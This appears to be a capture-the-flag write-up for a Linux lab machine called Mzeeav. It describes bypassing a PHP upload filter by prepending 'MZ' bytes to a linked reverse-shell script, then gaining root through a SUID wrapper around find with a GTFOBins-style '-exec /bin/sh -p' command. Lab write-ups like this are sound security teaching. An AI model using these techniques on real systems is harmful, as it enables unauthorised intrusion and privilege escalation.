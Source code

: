 # 🦂 Mzeeav (Linux)

## 🚪 Initial Foothold

Discovered a `backup.zip` archive containing a file named `upload.php`. This file checks the magic bytes (first 2 bytes) of an uploaded file. If the file starts with `MZ`, it allows execution — hinting at a bypass using PE file header bytes (`4D5A` in hex).

🔍 Used this trick to bypass the filter:
- Prepended `MZ` to the beginning of a PHP reverse shell script.
- Used this [reverse shell](https://github.com/xdayeh/Php-Reverse-Shell/blob/master/PHP-Reverse-Shell.php) because the default one didn’t work.
- Uploaded the file to: `http://<IP>/upload/shell.php`
- Got shell via listener on port 80.

🧠 **Understand the logic** in `upload.php`:
```php
if ( strpos($magicbytes, '4D5A') === false ) {
    echo "Error no valid PEFILE\n";
    exit ();
}
```

## 🧑‍💻 Privilege Escalation

Searched for SUID binaries:
```bash
find / -perm /4000 2>/dev/null
```

Found: `/opt/fileS`  
🧪 This binary lists files in a given directory. Running `/opt/fileS --version` reveals it uses the `find` command.

Used `find` from GTFOBins for escalation:
```bash
/opt/fileS . -exec /bin/sh -p \; -quit
```

⬆️ Gained root shell!

---

## 🧩 Key Takeaways

🔐 Inspect zip backups — they often leak important files.  
📜 Understand logic in PHP scripts — magic byte checks can be bypassed.  
🧰 Identify and abuse custom SUID binaries.  
🔎 Use `--version`, `-h`, and trial commands to fingerprint unknown binaries.  
🪄 GTFOBins is a lifesaver when SUID is involved!

